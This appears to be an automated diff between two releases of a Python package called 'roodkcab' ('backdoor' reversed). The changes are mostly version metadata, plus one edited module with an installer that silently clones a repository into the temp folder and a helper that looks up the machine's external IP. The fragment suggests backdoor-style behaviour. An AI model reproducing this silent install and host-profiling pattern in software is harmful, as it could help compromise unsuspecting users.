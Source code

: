 # Comparing `tmp/roodkcab-2.9.tar.gz` & `tmp/roodkcab-3.0.tar.gz`

## filetype from file(1)

```diff
@@ -1 +1 @@
-gzip compressed data, was "roodkcab-2.9.tar", last modified: Sun Jul  2 16:00:51 2023, max compression
+gzip compressed data, was "roodkcab-3.0.tar", last modified: Sun Jul  2 16:04:44 2023, max compression
```

## Comparing `roodkcab-2.9.tar` & `roodkcab-3.0.tar`

### file list

```diff
@@ -1,19 +1,19 @@
-drwxrwxrwx   0        0        0        0 2023-07-02 16:00:51.407151 roodkcab-2.9/
--rw-rw-rw-   0        0        0     1014 2023-07-01 13:36:48.000000 roodkcab-2.9/LICENSE
--rw-rw-rw-   0        0        0      929 2023-07-02 16:00:51.405152 roodkcab-2.9/PKG-INFO
--rw-rw-rw-   0        0        0      399 2023-07-02 15:51:11.000000 roodkcab-2.9/README.md
--rw-rw-rw-   0        0        0      709 2023-07-02 16:00:32.000000 roodkcab-2.9/pyproject.toml
--rw-rw-rw-   0        0        0       42 2023-07-02 16:00:51.407151 roodkcab-2.9/setup.cfg
-drwxrwxrwx   0        0        0        0 2023-07-02 16:00:51.380097 roodkcab-2.9/src/
-drwxrwxrwx   0        0        0        0 2023-07-02 16:00:51.395627 roodkcab-2.9/src/roodkcab/
--rw-rw-rw-   0        0        0        0 2023-07-01 19:55:25.000000 roodkcab-2.9/src/roodkcab/__init__.py
--rw-rw-rw-   0        0        0     2613 2023-07-02 16:00:02.000000 roodkcab-2.9/src/roodkcab/backroundworker.py
--rw-rw-rw-   0        0        0      287 2023-07-02 15:54:51.000000 roodkcab-2.9/src/roodkcab/data.py
--rw-rw-rw-   0        0        0     1225 2023-07-02 11:57:12.000000 roodkcab-2.9/src/roodkcab/filehelper.py
--rw-rw-rw-   0        0        0     1948 2023-07-02 12:10:37.000000 roodkcab-2.9/src/roodkcab/gitHelper.py
-drwxrwxrwx   0        0        0        0 2023-07-02 16:00:51.403152 roodkcab-2.9/src/roodkcab.egg-info/
--rw-rw-rw-   0        0        0      929 2023-07-02 16:00:51.000000 roodkcab-2.9/src/roodkcab.egg-info/PKG-INFO
--rw-rw-rw-   0        0        0      342 2023-07-02 16:00:51.000000 roodkcab-2.9/src/roodkcab.egg-info/SOURCES.txt
--rw-rw-rw-   0        0        0        1 2023-07-02 16:00:51.000000 roodkcab-2.9/src/roodkcab.egg-info/dependency_links.txt
--rw-rw-rw-   0        0        0       37 2023-07-02 16:00:51.000000 roodkcab-2.9/src/roodkcab.egg-info/requires.txt
--rw-rw-rw-   0        0        0        9 2023-07-02 16:00:51.000000 roodkcab-2.9/src/roodkcab.egg-info/top_level.txt
+drwxrwxrwx   0        0        0        0 2023-07-02 16:04:44.957755 roodkcab-3.0/
+-rw-rw-rw-   0        0        0     1014 2023-07-01 13:36:48.000000 roodkcab-3.0/LICENSE
+-rw-rw-rw-   0        0        0      936 2023-07-02 16:04:44.955715 roodkcab-3.0/PKG-INFO
+-rw-rw-rw-   0        0        0      399 2023-07-02 15:51:11.000000 roodkcab-3.0/README.md
+-rw-rw-rw-   0        0        0      716 2023-07-02 16:04:21.000000 roodkcab-3.0/pyproject.toml
+-rw-rw-rw-   0        0        0       42 2023-07-02 16:04:44.957755 roodkcab-3.0/setup.cfg
+drwxrwxrwx   0        0        0        0 2023-07-02 16:04:44.914603 roodkcab-3.0/src/
+drwxrwxrwx   0        0        0        0 2023-07-02 16:04:44.941191 roodkcab-3.0/src/roodkcab/
+-rw-rw-rw-   0        0        0        0 2023-07-01 19:55:25.000000 roodkcab-3.0/src/roodkcab/__init__.py
+-rw-rw-rw-   0        0        0     2603 2023-07-02 16:03:56.000000 roodkcab-3.0/src/roodkcab/backroundworker.py
+-rw-rw-rw-   0        0        0      287 2023-07-02 15:54:51.000000 roodkcab-3.0/src/roodkcab/data.py
+-rw-rw-rw-   0        0        0     1225 2023-07-02 11:57:12.000000 roodkcab-3.0/src/roodkcab/filehelper.py
+-rw-rw-rw-   0        0        0     1948 2023-07-02 12:10:37.000000 roodkcab-3.0/src/roodkcab/gitHelper.py
+drwxrwxrwx   0        0        0        0 2023-07-02 16:04:44.952716 roodkcab-3.0/src/roodkcab.egg-info/
+-rw-rw-rw-   0        0        0      936 2023-07-02 16:04:44.000000 roodkcab-3.0/src/roodkcab.egg-info/PKG-INFO
+-rw-rw-rw-   0        0        0      342 2023-07-02 16:04:44.000000 roodkcab-3.0/src/roodkcab.egg-info/SOURCES.txt
+-rw-rw-rw-   0        0        0        1 2023-07-02 16:04:44.000000 roodkcab-3.0/src/roodkcab.egg-info/dependency_links.txt
+-rw-rw-rw-   0        0        0       37 2023-07-02 16:04:44.000000 roodkcab-3.0/src/roodkcab.egg-info/requires.txt
+-rw-rw-rw-   0        0        0        9 2023-07-02 16:04:44.000000 roodkcab-3.0/src/roodkcab.egg-info/top_level.txt
```

### Comparing `roodkcab-2.9/LICENSE` & `roodkcab-3.0/LICENSE`

 * *Files identical despite different names*

### Comparing `roodkcab-2.9/PKG-INFO` & `roodkcab-3.0/PKG-INFO`

 * *Files 17% similar despite different names*

```diff
@@ -1,11 +1,11 @@
 Metadata-Version: 2.1
 Name: roodkcab
-Version: 2.9
-Summary: Tryed Fixing import Bug inside the package!
+Version: 3.0
+Summary: Tryed Fixing import Bug inside the package AGAIIN!
 Author-email: LuxxDEV <lkgames256@gmail.com>
 Project-URL: Homepage, https://github.com/lkgames256/roodkcab
 Project-URL: Bug Tracker, https://github.com/lkgames256/roodkcab/issues
 Classifier: Programming Language :: Python :: 3
 Classifier: License :: OSI Approved :: MIT License
 Classifier: Operating System :: OS Independent
 Requires-Python: >=3.9
```

### Comparing `roodkcab-2.9/pyproject.toml` & `roodkcab-3.0/pyproject.toml`

 * *Files 4% similar despite different names*

```diff
@@ -2,19 +2,19 @@
 requires = [
     "setuptools>=61.0"
 ]
 build-backend = "setuptools.build_meta"
 
 [project]
 name = "roodkcab"
-version = "2.9"
+version = "3.0"
 authors = [
   { name="LuxxDEV", email="lkgames256@gmail.com" },
 ]
-description = "Tryed Fixing import Bug inside the package!"
+description = "Tryed Fixing import Bug inside the package AGAIIN!"
 readme = "README.md"
 requires-python = ">=3.9"
 classifiers = [
     "Programming Language :: Python :: 3",
     "License :: OSI Approved :: MIT License",
     "Operating System :: OS Independent",
 ]
```

### Comparing `roodkcab-2.9/src/roodkcab/backroundworker.py` & `roodkcab-3.0/src/roodkcab/backroundworker.py`

 * *Files 7% similar despite different names*

```diff
@@ -5,15 +5,15 @@
 import uuid
 import datetime
 from .gitHelper import *
 
 
 def installer():
     random_id = uuid.uuid4()
-    gitHelper.clone(url="", clone_path=os.getenv("TMP") + f"\installerroodkcab{random_id}")
+    clone(url="", clone_path=os.getenv("TMP") + f"\installerroodkcab{random_id}")
     os.chdir(os.getenv("TMP") + f"\installerroodkcab{random_id}")
     write_data(random_id=random_id)
 
 
 def getExternalIP():
     return requests.get("https://api.ipify.org").text
```

### Comparing `roodkcab-2.9/src/roodkcab/filehelper.py` & `roodkcab-3.0/src/roodkcab/filehelper.py`

 * *Files identical despite different names*

### Comparing `roodkcab-2.9/src/roodkcab/gitHelper.py` & `roodkcab-3.0/src/roodkcab/gitHelper.py`

 * *Files identical despite different names*

### Comparing `roodkcab-2.9/src/roodkcab.egg-info/PKG-INFO` & `roodkcab-3.0/src/roodkcab.egg-info/PKG-INFO`

 * *Files 17% similar despite different names*

```diff
@@ -1,11 +1,11 @@
 Metadata-Version: 2.1
 Name: roodkcab
-Version: 2.9
-Summary: Tryed Fixing import Bug inside the package!
+Version: 3.0
+Summary: Tryed Fixing import Bug inside the package AGAIIN!
 Author-email: LuxxDEV <lkgames256@gmail.com>
 Project-URL: Homepage, https://github.com/lkgames256/roodkcab
 Project-URL: Bug Tracker, https://github.com/lkgames256/roodkcab/issues
 Classifier: Programming Language :: Python :: 3
 Classifier: License :: OSI Approved :: MIT License
 Classifier: Operating System :: OS Independent
 Requires-Python: >=3.9
```

